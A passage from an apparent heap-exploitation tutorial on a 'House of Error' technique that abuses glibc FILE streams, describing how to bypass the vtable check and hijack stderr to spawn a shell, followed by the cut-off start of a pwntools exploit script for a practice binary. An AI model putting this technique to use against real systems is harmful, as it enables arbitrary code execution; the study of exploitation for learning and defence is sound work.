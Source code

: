 Now we have to devise a plan for what we want to corrupt before going to `fflush(stderr)` for a second round!

My plan:
* Use one arbitrary write to defeat `_IO_vtable_check` by overwriting the pointer guard with `&_IO_vtable_check`. (Same way we did in PoC #2)
* Use one arbitary write to tamper the least significant byte of `stderr` so we can point to a new fake crafted FILE stream which will be triggered from within `fflush(stderr)`!

With our first arbitrary write we are disabling the vtable check and hence in our second fake crafted FILE stream we can forge a fake vtable to just call `system("/bin/sh")`.

With the second arbitrary write besides from corrupting the least significant byte of `stderr` inorder to hijack the control flow later in `fflush(stderr)` we put also the `system` function at the same time to avoid crafting a third fake FILE stream on the heap.

Last step craft our second fake FILE stream on the heap with `_flags` field `/bin/sh\x00` and a vtable pointing back to where we put `system` in glibc's data section and enjoy your shell ;)

# Exploit for House of Error
```python
from imghdr import what
from pwn import *

elf = context.binary = ELF('house_of_error_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = '''
                dir /home/john/Bench/poc3/libio/
                set breakpoint pending on
                b _IO_mem_sync
                b __malloc_assert
        ''')
    else:
        return process(elf.path)

pwnie_lands = [0,]*8

def select_option(option):
    io.sendlineafter(b'> ', str(option).encode())

def adjust_sizes(chunk_size): # copy pasted from HeapLABs ;)
    return (chunk_size & ~0x0f) - 8

def lock_pwnie_land():
    for i in range(8):
        if pwnie_lands[i] == 0:
            pwnie_lands[i] = 1
            return i
    return -1 # there is no available pwnie land!

def unlock_pwnie_land(pwnie_land):
    pwnie_lands[pwnie_land] = 0
    
def add_pwnie_land(pwnie_land_size, pwnie_land_contents):
    select_option(option = 1)
    io.sendlineafter(b'> ', hex(adjust_sizes(pwnie_land_size)).encode())
    io.sendlineafter(b'> ', pwnie_land_contents)
    return lock_pwnie_land()

def burn_pwnie_land(pwnie_land):
    select_option(option = 2)
```
